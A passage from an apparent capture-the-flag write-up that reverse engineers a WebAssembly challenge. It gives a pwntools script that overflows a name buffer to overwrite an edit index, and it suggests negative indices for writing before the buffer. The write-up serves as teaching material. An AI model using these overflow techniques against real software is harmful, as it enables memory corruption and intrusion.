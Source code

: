 ```C
  var f:int = d - e;
  f[3]:int = a;
  f[2]:int = b; //here
  f[7]:byte = c;
  ...
  var n:int = f[7]:ubyte;
  var o:int = f[3]:int;
  var p:int = f[2]:int;
  var q:byte_ptr = o + p;
  q[0] = n;
  ...
}
```
Interesting, it seems to represent an offset at which we are editing the name!
According to the text printed by the program, we should only be able to edit the first letter of the name, i.e. the index `0`, which fits with the fact that, if the buffer is not overflowing, this offset always has value `0`.
Now, it's time to confirm that we were right in our reverse engineering by putting this theory into practice.

## Exploitation

Let's first write a small exploit script to confirm what we just said:
```python
#!/usr/bin/python3
from pwn import *

p = process(["/usr/bin/wasmtime", "bin.wasm"])

p.recvuntil(b"name:")

 
name = 16*b"A" #padding
name += p32(1) #index at which we want to edit
p.sendline(name)

p.recvuntil(b"joke!\n")
p.sendline(b"1") #edit name
p.recvuntil(b"there?")
p.sendline(b"42") #value to edit, chr(42) = '*'
p.recvuntil(b"joke!\n")
p.sendline(b"3") #doesn't matter, just needed to exit
p.interactive()
```
```
$ ./exploit.py
[+] Starting local process '/usr/bin/wasmtime': pid 17462
[*] Switching to interactive mode
Sorry not today.
Bye!

 A*AAAAAAAAAAAAAA - 3 is gone
[*] Process '/usr/bin/wasmtime' stopped with exit code 0 (pid 17462)
[*] Got EOF while reading in interactive
```
It worked, we got the second character replaced by a star, instead of the first one! Now, by specifying a negative index, we can also overwrite data located before the buffer. It's probably time to have a closer look at how these `3 1 2 3` we saw just before the buffer in the stack frame are used. The address of these numbers is passed as the first argument of `menu`, let's see what this argument becomes in the function:
```C
function menu(a:int, b:int, c:int, d:int, e:int) {
  var f:int = stack_pointer;
  var g:int = 80;
```